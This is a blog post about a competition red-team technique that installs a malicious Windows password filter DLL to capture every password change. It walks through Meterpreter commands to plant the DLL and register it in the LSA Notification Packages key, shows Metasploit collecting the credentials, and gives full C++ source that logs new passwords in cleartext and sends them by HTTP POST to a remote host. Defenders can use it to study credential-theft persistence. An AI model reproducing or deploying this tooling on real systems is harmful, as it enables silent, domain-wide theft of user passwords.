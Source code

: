 ---
layout: post
title: "Stealing passwords every time they change"
date: 2013-09-11 00:28:31 -0500
comments: true
categories: 
- passwords
- releases
---

[Password Filters [0]]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx") are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those available by default in Active Directory Group Policy.  It is also fairly documented on how to Install and [Register Password Filters [1]](http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx). Basically what it boils down to is updating a registry key here: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages`

with the name of a DLL (without the extension) that you place in Windows\System32\

For [National CCDC](http://www.nationalccdc.org/) earlier this year (2013), I created an installer and "evil pass filter" that basically installed itself as a password filter and any time any passwords changed it would store the change to a log file locally to the victim (in clear text) as well as issue an HTTP basic auth POST to a server I own with the username and password.

The full code can be found below. I'll leave the compiling up to you but basically its slamming the code in Visual Studio, telling it its a DLL, and clicking build for the architecture you are targeting (Make sure to use the Internet Open access settings that make the most sense for the environment you are using this in [[2](http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx)].

So lets walk the exploitation:

First, you have to be admin or system, as this is more of a persistence method than anything.

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

Next, we upload the evilpassfilter.dll to Sytem32:

    meterpreter > pwd
    C:\Windows\system32
    meterpreter > upload /tmp/evilpassfilter.dll .
    [*] uploading  : /tmp/evilpassfilter.dll -> .
    [*] uploaded   : /tmp/evilpassfilter.dll -> .\evilpassfilter.dll

Then we need to query what is already in the notification packages list:

    meterpreter > reg queryval -k HKLM\\System\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
    Key: HKLM\System\CurrentcontrolSet\Control\Lsa
    Name: Notification Packages
    Type:
    Data: sceclirassfm

What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default:

    scecli
    rassfm

We need to add ours to the end of this list, unfortunately at the current point of time its impossible to do directly from the meterpreter command line (as far as I know). So we need to drop a .reg file and manually import it. Easiest way to do that is to add your "evilpassfilter" string as well as the ones on the victim to a VM you have and export it. Should look like this:

Once we have our file, we upload and import it using reg command:

    meterpreter > upload importme.reg .
    [*] uploading  : importme.reg -> .
    [*] uploaded   : importme.reg -> .\importme.reg
    meterpreter > execute -H -f regedit.exe -a '/s importme.reg'
    Process 2628 created.
    meterpreter > 

Double check our work:

    meterpreter > reg queryval -k HKLM\\System\\CurrentcontrolSet\\Control\\Lsa -v "Notification Packages"
    Key: HKLM\System\CurrentcontrolSet\Control\Lsa
    Name: Notification Packages
    Type:
    Data: sceclirnrassfmrnevilpassfilter 

Its there, w00t! But it doesn't do anything until a reboot happens :(. Lets just force that to happen (not the most stealthy thing to do):

    meterpreter > reboot
    Rebooting...

While thats going on, lets set up the server to catch the basic auth.

    msf exploit(psexec) > use auxiliary/server/capture/http_basic
    msf auxiliary(http_basic) > set URIPATH /
    URIPATH => /
    msf auxiliary(http_basic) > run
    [*] Auxiliary module execution completed
    msf auxiliary(http_basic) >
    [*] Listening on 0.0.0.0:80...
    [*] Using URL: http://0.0.0.0:80/
    [*]  Local IP: http://192.168.92.106:80/
    [*] Server started.
    msf auxiliary(http_basic) > 

Then we wait for a password to be changed:

    msf auxiliary(http_basic) >
    [*] 192.168.92.106   http_basic - Sending 401 to client
    [+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /

No matter how complex their password is and without having a shell on the box anymore:

    msf auxiliary(http_basic) >
    [+] 192.168.92.106 - Credential collected: "jack:a?'z_a4#RRK(mvQEsyQ8l`,JR.pes<;6#0$puQ%Q&,@ZwY(T@p" => /

This works from Windows 2000, XP all the way up to Windows 8 & 2012.

Ok, but how often are local password changed? Maybe not that often, but guess what happens when a password filter is put on a domain controller. Every password changed by that DC is "verified" by your evil password filter.

Oh and what does that log file we talked about earlier on the victim look like if for some reason they block that IP you're getting your authentication to? (You would have to find a way to get back on that system, or make it available via a share or otherwise)

    InitializeChangeNotify()
    JackJohnson:ASDqwe123
    JackJohnson:a?'z_a4#RRK(mvQEsyQ8l`,JR.pes<;6#0$puQ%Q&,@ZwY(T@p

This attack supports a larger character set than most banks ;-)

* [0] [http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx")
* [1] [http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx")
* [2] [http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx")

Full code:

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

void writeToLog(const char* szString)
{
    FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
    if (NULL == pFile)
    {
        return;
    }
    fprintf(pFile, "%s\r\n", szString);
    fclose(pFile);
    return;
}



// Default DllMain implementation
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
                     )
{
    OutputDebugString(L"DllMain");
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}

BOOLEAN __stdcall InitializeChangeNotify(void)
{
    OutputDebugString(L"InitializeChangeNotify");
    writeToLog("InitializeChangeNotify()");
    return TRUE;
}

BOOLEAN __stdcall PasswordFilter(
    PUNICODE_STRING AccountName,
    PUNICODE_STRING FullName,
    PUNICODE_STRING Password,
    BOOLEAN SetOperation )
{
    OutputDebugString(L"PasswordFilter");
    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(
    PUNICODE_STRING UserName,
    ULONG RelativeId,
    PUNICODE_STRING NewPassword )
{
  FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
  //HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);
	HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
	HINTERNET hSession = InternetConnect(hInternet,L"172.16.10.1",80,NULL,NULL,INTERNET_SERVICE_HTTP ,0,0);
	HINTERNET hReq = HttpOpenRequest(hSession,L"POST",L"/",NULL,NULL,NULL,0,0);
	char* pBuf="SomeData";



	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
    {
        return;
    }
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer,NewPassword->Buffer);
  fclose(pFile);
	InternetSetOption(hSession,INTERNET_OPTION_USERNAME,UserName->Buffer,UserName->Length/2);
	InternetSetOption(hSession,INTERNET_OPTION_PASSWORD,NewPassword->Buffer,NewPassword->Length/2);
	HttpSendRequest(hReq,NULL,0,pBuf,strlen(pBuf));

    return 0;
}
```